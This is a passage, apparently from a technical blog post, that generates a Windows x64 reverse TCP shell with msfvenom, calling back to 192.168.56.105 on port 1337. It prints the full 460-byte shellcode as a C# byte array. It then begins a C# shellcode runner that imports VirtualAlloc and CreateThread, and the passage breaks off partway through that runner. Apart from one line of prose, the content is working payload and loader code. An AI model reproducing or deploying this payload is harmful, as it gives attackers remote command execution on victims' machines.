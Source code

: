 {% highlight csharp %}
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.105 LPORT=1337 -f csharp -v shellCode                                                                                                                                                                                                                   130 ⨯
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of csharp file: 2368 bytes
byte[] shellCode = new byte[460] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,
0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,
0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,
0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,
0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,
0x32,0x00,0x00,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,
0x49,0x89,0xe5,0x49,0xbc,0x02,0x00,0x05,0x39,0xc0,0xa8,0x38,0x69,0x41,0x54,
0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,
0x89,0xea,0x68,0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,
0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,
0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x48,
0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,
0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x02,0x00,0x00,0x49,0xb8,0x63,
0x6d,0x64,0x00,0x00,0x00,0x00,0x00,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,
0x57,0x57,0x4d,0x31,0xc0,0x6a,0x0d,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,
0x24,0x54,0x01,0x01,0x48,0x8d,0x44,0x24,0x18,0xc6,0x00,0x68,0x48,0x89,0xe6,
0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,
0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,
0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0x0e,0x41,0xba,0x08,0x87,0x1d,0x60,0xff,
0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,
0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,
0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5 };
{% endhighlight %}

This is then used within a C Sharp file that executes the shellcode.
{% highlight csharp linenos %}
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Runtime.InteropServices;

namespace ShellCodeRunner {

    public class Program {
        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(IntPtr lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags,  IntPtr lpThreadId);
        
        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        [DllImport("kernel32")]
        private static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);